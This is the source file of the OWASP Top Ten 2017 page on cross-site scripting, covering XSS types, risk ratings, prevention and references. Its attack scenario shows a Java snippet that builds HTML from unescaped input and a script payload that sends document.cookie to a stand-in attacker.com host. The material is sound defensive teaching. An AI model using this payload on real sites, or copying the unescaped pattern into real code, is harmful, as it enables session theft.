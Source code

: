 ```yaml
---

document: OWASP Top Ten 2017
year: 2017
order: 12
title: A7:2017-Cross-Site Scripting (XSS)
lang: en
layout: full-width-document
author:
contributors:
tags: OWASP Top Ten 2017, Top Ten, A7, xss
exploitability: 3
prevalence: 3
detectability: 3
technical: 2

---
```


{% include risk_begin.html %}
{%- include risk_description.html pos="firstLeft" -%}
Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.
{%- include risk_description.html pos="mid" -%}
XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.<br>
Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.
{%- include risk_description.html pos="right" -%}
The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.
{%- include risk_end.html -%}

{%- include t10_subsection_begin.html -%}
{%- include t10_subsection.html token="isTheApplicationVulnerable" pos="firstLeft" -%}
There are three forms of XSS, usually targeting users' browsers:<br>
* **Reflected XSS**: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.<br>
* **Stored XSS**: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.<br>
* **DOM XSS**: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.<br>

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

{%- include t10_subsection.html token="howToPrevent" pos="right" -%}
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:<br>
* Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.<br>
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data escaping techniques.<br>
* Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).<br>
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).<br>

{%- include t10_subsection.html token="exampleAttackScenarios" pos="left" -%}
**Scenario #1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:<br>
    {% include code_red_begin.html -%} (String) page += "<input name='creditcard' type='TEXT' {%- include code_red_end.html %}
    {% include code_red_begin.html -%} value='" + request.getParameter("CC") + "'>"; {%- include code_red_end.html %}

The attacker modifies the ‘CC’ parameter in the browser to:<br>
    {% include code_red_begin.html -%} '>&lt;script>document.location= {%- include code_red_end.html %}
    {% include code_red_begin.html -%} 'http://www.attacker.com/cgi-bin/cookie.cgi? {%- include code_red_end.html %}
    {% include code_red_begin.html -%} foo='+document.cookie&lt;/script>'. {%- include code_red_end.html %}

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. <br>
**Note**: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

{%- include t10_subsection.html token="references" pos="right" -%}
**OWASP**<br>
* [OWASP Proactive Controls: Encode Data](/www-project-proactive-controls)<br>
* [OWASP Proactive Controls: Validate Data](/www-project-proactive-controls)<br>
* [OWASP Application Security Verification Standard: V5](/www-project-application-security-verification-standard)<br>
* [OWASP Testing Guide: Testing for Reflected XSS](/www-project-testing)<br>
* [OWASP Testing Guide: Testing for Stored XSS](/www-project-testing)<br>
* [OWASP Testing Guide: Testing for DOM XSS](/www-project-testing)<br>
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: XSS Filter Evasion](/www-community//xss-filter-evasion-cheatsheet)<br>
* [OWASP Java Encoder Project](/www-project-java-encoder)<br>
<br>
**External**<br>
* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)<br>
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
{% include t10_subsection_end.html %}